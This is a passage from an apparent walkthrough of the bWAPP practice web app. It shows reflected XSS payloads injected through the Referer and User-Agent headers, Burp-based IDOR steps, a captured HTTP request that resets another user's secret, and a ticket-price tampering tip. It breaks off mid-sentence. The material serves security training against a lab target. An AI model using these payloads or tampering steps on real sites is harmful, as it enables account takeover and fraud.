 ### 💀  XSS - Reflected (HREF) 💀

```
Referer: <script>alert(1)</script>
```

### 💀  XSS - Reflected (User-Agent) 💀

```
User-Agent: <script>alert(1)</script>
```

# A4 - Insecure Direct Object References

### 💀  Insecure DOR (Change Secret) 💀

Use Burp to unhide hidden fields or intercept POST param.

### 💀  Insecure DOR (Reset Secret) 💀

Change 'login' and 'secret' field to arbitrary values.

```
POST /bWAPP/xxe-2.php HTTP/1.1
Host: bepp:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Referer: http://bepp:8088/bWAPP/insecure_direct_object_ref_3.php
Content-Length: 59
Cookie: PHPSESSID=77aa634b546d1c78d5afc16aae328172; security_level=0
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

<reset><login>bee</login><secret>Any bugs?</secret></reset>
```

### 💀  Insecure DOR (Order Tickets) 💀

bWAPP/insecure_direct_object_ref_2.php

Use Burp to unhide hidden ticket price field, or use proxy to modify the POST param while in transit.

# A5 - Security Misconfiguration

### 💀  Cross-Origin Resource Sharing (AJAX) 💀

It's possible because of header in response:
